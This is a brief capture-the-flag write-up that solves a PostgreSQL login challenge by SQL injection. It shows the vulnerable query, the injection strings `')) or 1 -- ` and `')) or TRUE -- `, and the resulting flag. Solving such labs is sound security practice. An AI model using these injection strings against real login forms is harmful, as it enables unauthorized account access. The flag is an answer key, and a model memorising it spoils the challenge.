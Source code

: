 # Po po po po postgresql Solution

This is the query: 
```
SELECT * FROM users WHERE (username = ('$username') AND ...
```

so, let's give this input: `')) or 1 -- `

however, i get this error, because this is PostgresSQL
![image](./images/Po%20po%20po%20po%20postgresql.png)

so, let's give it true value instead of 1:
`')) or TRUE -- `

**Flag:** ***`FLAG-mdeq68jNN88xLB1o2m8V33Ld`***
